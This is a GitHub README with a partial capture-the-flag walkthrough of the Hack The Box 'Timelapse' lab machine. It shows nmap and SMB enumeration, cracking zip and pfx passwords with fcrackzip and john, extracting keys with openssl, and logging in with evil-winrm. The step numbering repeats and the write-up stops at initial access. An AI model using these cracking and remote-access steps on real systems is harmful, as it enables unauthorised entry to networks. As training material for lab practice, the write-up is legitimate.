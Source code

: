 <div id="top"></div>
<!--
*** Thanks for checking out the Best-README-Template. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Don't forget to give the project a star!
*** Thanks again! Now go create something AMAZING! :D
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->



<!-- PROJECT LOGO -->
<br />
<div align="center">

<h1 align="center">HTB Timelapse Notes</h1>

</div>

![Timelapse](https://user-images.githubusercontent.com/19478700/173301506-f8a85cbf-aafd-4028-85c9-63cfae763820.png)





<!-- ABOUT THE PROJECT -->
## About The Project
Timelapse HTB Machine


## Steps

### 1. Nmap Scans:
  ```sh
   nmap -p- 10.10.11.152
   ```
   ````sh
      PORT      STATE SERVICE          REASON
      53/tcp    open  domain           syn-ack ttl 127
      88/tcp    open  kerberos-sec     syn-ack ttl 127
      135/tcp   open  msrpc            syn-ack ttl 127
      139/tcp   open  netbios-ssn      syn-ack ttl 127
      389/tcp   open  ldap             syn-ack ttl 127
      445/tcp   open  microsoft-ds     syn-ack ttl 127
      464/tcp   open  kpasswd5         syn-ack ttl 127
      593/tcp   open  http-rpc-epmap   syn-ack ttl 127
      636/tcp   open  ldapssl          syn-ack ttl 127
      3268/tcp  open  globalcatLDAP    syn-ack ttl 127
      3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
      5986/tcp  open  wsmans           syn-ack ttl 127
      9389/tcp  open  adws             syn-ack ttl 127
      49667/tcp open  unknown          syn-ack ttl 127
      49673/tcp open  unknown          syn-ack ttl 127
      49674/tcp open  unknown          syn-ack ttl 127
      49696/tcp open  unknown          syn-ack ttl 127
      51231/tcp open  unknown          syn-ack ttl 127
   ````


```sh
   nmap -sVC 10.10.11.152
   ```


``sh
   PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-06-13 15:03:29Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?      syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
   ``
   
   

### 2.SMB Enumeration:
  ```sh
   smbclient -N -L 10.10.11.152
   ```

   ``sh
   Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
   ``

  Ivestiating we find several files on Shares share:

   ```sh
   smbclient \\\\10.10.11.152\\Shares
   ```

   ```sh
    LAPS_Datasheet.docx               LAPS.x64.msi
    LAPS_OperationsGuide.docx         winrm_backup.zip
    LAPS_TechnicalSpecification.docx

   ```

  winrm_backup seems interesting but its password protected.
  DOCX Files contain documentation about how passwords are managed arround the directory.
  
### 3.Cracking ZIP:
  
  lets try to crack the zip
   ```sh
   fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt
   ```
   ```sh
   PASSWORD FOUND!!!!: pw == supremelegacy
   ```
   Zip password was weak: supremelegacy
   We obtain legacyy_dev_auth.pfx
   
   

### 3.Cracking pfx:
  A quick Google search about extracting cert keys from pfx:
  https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file
  but we need to obtain the pfx key first so we are gonna try to crack it using john
  Convert:
  ```sh
  pfx2john legacyy_dev_auth.pfx > pfx_john_legacy.hash
  ```
  
  ```sh
  john -w=/usr/share/wordlists/rockyou.txt pfx_john_legacy.hash 
  ```
  
  ```sh
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:02:13 DONE (2022-06-13 04:00) 0.007506g/s 24256p/s 24256c/s 24256C/s thuglife03282006..thug209
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
  Found pfx pass: thuglegacy
  
  Now lets extract key and cert:
  
  Extract cert:
   ```sh
   openssl pkcs12 -in legacyy_dev_auth.pfx -out cert.pem
   ```
   
   Extract priv key:
   ```sh
   openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.pem -nodes
   ```
   
   
   
   
   
   After formatting the files correctly we can connect via ssh:
   
   ```sh
   evil-winrm -S -k legacy.key -c legacy.cert -i 10.10.11.152
   ``` 
   
  

   
   
### 2.SMB Enumeration:



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE.txt` for more information.

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- CONTACT -->
## Contact

Pol Galvez - polgalvezsoriano@gmail.com

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [aidenpearce369.github.io](aidenpearce369.github.io)
* []()
* []()

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/github_username/repo_name.svg?style=for-the-badge
[contributors-url]: https://github.com/github_username/repo_name/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/github_username/repo_name.svg?style=for-the-badge
[forks-url]: https://github.com/github_username/repo_name/network/members
[stars-shield]: https://img.shields.io/github/stars/github_username/repo_name.svg?style=for-the-badge
[stars-url]: https://github.com/github_username/repo_name/stargazers
[issues-shield]: https://img.shields.io/github/issues/github_username/repo_name.svg?style=for-the-badge
[issues-url]: https://github.com/github_username/repo_name/issues
[license-shield]: https://img.shields.io/github/license/github_username/repo_name.svg?style=for-the-badge
[license-url]: https://github.com/github_username/repo_name/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/linkedin_username
[product-screenshot]: images/screenshot.png
